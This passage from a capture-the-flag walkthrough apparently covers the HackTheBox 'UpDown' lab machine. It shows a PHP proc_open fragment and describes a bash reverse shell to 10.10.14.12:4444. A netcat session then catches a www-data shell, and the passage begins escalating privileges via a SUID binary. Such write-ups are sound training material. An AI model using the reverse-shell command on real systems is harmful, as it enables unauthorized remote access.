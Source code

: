 ```php

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], '<?php print_r($_ENV); ?>');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
```

- the script creates a process that runs the Bash shell and connects it to a remote host and port using the `bash -i >& /dev/tcp/10.10.14.12/4444 0>&1` command. The $descriptorspec array specifies the pipes that will be used to communicate with the child process. The proc_open() function is then used to start the process and return a resource that represents it.

- Getting Reverse Shell:

```bash
┌──(goku㉿exploitation)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from siteisup.htb [10.10.11.177] 43958
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/3b388790d35d58cf684975ffc668c9ec$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@updown:/var/www/dev/uploads/3b388790d35d58cf684975ffc668c9ec$
```

# Privilige Escalation To `developer`

- After gaining access to the machine, I found a `developer` user in the home directory and a directory called `dev` containing the following files: a binary file `siteisup` with the SUID bit set and a file called `siteisup_test.py`

- I used the `strings` command to perform basic static binary analysis on the file

```bash
www-data@updown:/home/developer/dev$ ls -alh
ls -alh
total 32K
drwxr-x--- 2 developer www-data  4.0K Jun 22  2022 .
drwxr-xr-x 6 developer developer 4.0K Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data   17K Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22  2022 siteisup_test.py
www-data@updown:/home/developer/dev$ cat siteisup_test.py
cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
```